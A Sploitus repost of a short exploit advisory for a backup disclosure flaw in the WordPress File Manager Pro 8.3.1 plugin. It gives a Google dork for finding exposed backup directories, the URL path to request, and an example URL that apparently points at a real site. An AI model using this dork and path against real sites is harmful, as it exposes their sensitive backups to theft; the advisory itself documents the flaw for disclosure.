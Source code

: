 ```yaml
---
title: WordPress File Manager Pro 8.3.1 Backup Disclosure exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172995&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-20
fetch_date: 2025-10-04T11:45:10.859371
---
```


# WordPress File Manager Pro 8.3.1 Backup Disclosure exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress File Manager Pro 8.3.1 Backup Disclosure

2023-06-19 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172995
====================================================================================================================================
| # Title : WordPress - file manager pro 8.3.1 Backup Disclosure Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 108.0.2(64-bit) |
| # Vendor : https://wordpress.org/ |
| # Dork : "Index of /wp-content/uploads/wp-file-manager-pro/backup" |
====================================================================================================================================

P0C :

[+] Appears to leave backups in a world accessible directory under the document root & The plugin exports a backup exported as a zip file and contains sensitive informations.

[+] Dorking İn Google Or Other Search Enggine.

[+] Use payload : "/wp-content/uploads/wp-file-manager-pro/fm_backup/"

[+] https://127.0.0.1/facc10.org.br/wp-content/uploads/wp-file-manager-pro/backup/

Greetings to :=========================================================================================================================
jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * shadow_00715 * LiquidWorm * thelastvvv *Zigoo.eg |
=======================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)